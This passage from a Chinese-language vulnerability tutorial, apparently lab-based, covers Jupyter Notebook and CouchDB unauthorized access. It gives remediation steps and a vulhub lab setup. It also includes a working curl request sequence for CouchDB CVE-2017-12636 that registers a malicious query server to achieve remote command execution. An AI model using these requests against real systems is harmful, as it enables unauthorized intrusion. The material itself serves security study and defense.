 ## 漏洞利用

访问 http://192.168.211.129:8888

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090613-077c160e-c930-1.jpg)

利用New > Terminal 命令执行

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090613-078b5bdc-c930-1.jpg)

## 漏洞修复

1. 开启身份验证，防止未经授权用户访问。
2. 访问控制策略，限制IP访问，绑定固定IP。

# CouchDB 未授权访问

Apache  CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit  Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）,默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。

在官方配置文档中对HTTP Server的配置有WWW-Authenticate：Set this option to trigger  basic-auth popup on unauthorized requests，但是很多用户都没有这么配置，导致漏洞产生。

## 环境搭建

```bash
root@kali:~/桌面/vulhub-master/couchdb/CVE-2017-12636# service docker restart 
root@kali:~/桌面/vulhub-master/couchdb/CVE-2017-12636# docker-compose up
```


## 漏洞利用

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)先增加一个管理员用户。也可以访问`http://192.168.211.129:5984/_utils/`在右下角创建用户。依次执行如下请求即可触发任意命令执行

```bash
root@NC:/mnt/c/Users# curl -X PUT 'http://vulhub:vulhub@192.168.211.129:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
""
root@NC:/mnt/c/Users# curl -X PUT 'http://vulhub:vulhub@192.168.211.129:5984/vultest'
{"ok":true}
root@NC:/mnt/c/Users# curl -X PUT 'http://vulhub:vulhub@192.168.211.129:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
{"ok":true,"id":"vul","rev":"1-967a00dff5e02add41819138abb3284d"}
root@NC:/mnt/c/Users# curl -X POST 'http://vulhub:vulhub@192.168.211.129:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

其中,`vulhub:vulhub`为管理员账号密码。
